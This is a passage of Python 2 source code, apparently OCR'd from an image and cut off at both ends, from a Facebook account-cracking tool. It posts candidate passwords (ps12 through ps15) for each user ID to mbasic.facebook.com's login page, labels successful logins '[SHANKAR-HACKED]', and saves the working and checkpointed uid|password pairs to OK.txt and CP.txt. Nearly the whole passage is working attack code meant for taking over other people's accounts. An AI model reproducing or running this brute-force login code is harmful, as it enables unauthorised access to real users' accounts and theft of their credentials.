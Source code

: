                                                             'pass': ps12,
                                                            'login': 'submit' })
                                                        sp = data.content
                                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            ok = open('OK.txt', 'a')
                                                            ok.write(uid + '|' + ps12 + '\n')
                                                            ok.close()
                                                            oks.append(uid + ps12)
                                                        elif 'checkpoint' in sp:
                                                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            cp = open('CP.txt', 'a')
                                                            cp.write(uid + '|' + ps12 + '\n')
                                                            cp.close()
                                                            cps.append(uid + ps12)
                                                        else:
                                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                'email': uid,
                                                                'pass': ps13,
                                                                'login': 'submit' })
                                                            sp = data.content
                                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                ok = open('OK.txt', 'a')
                                                                ok.write(uid + '|' + ps13 + '\n')
                                                                ok.close()
                                                                oks.append(uid + ps13)
                                                            elif 'checkpoint' in sp:
                                                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                cp = open('CP.txt', 'a')
                                                                cp.write(uid + '|' + ps13 + '\n')
                                                                cp.close()
                                                                cps.append(uid + ps13)
                                                            else:
                                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                    'email': uid,
                                                                    'pass': ps14,
                                                                    'login': 'submit' })
                                                                sp = data.content
                                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    ok = open('OK.txt', 'a')
                                                                    ok.write(uid + '|' + ps14 + '\n')
                                                                    ok.close()
                                                                    oks.append(uid + ps14)
                                                                elif 'checkpoint' in sp:
                                                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    cp = open('CP.txt', 'a')
                                                                    cp.write(uid + '|' + ps14 + '\n')
                                                                    cp.close()
                                                                    cps.append(uid + ps14)
                                                                else:
                                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                        'email': uid,
                                                                        'pass': ps15,
                                                                        'login': 'submit' })
                                                                    sp = data.content
                                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        ok = open('OK.txt', 'a')
                                                                        ok.write(uid + '|' + ps15 + '\n')
                                                                        ok.close()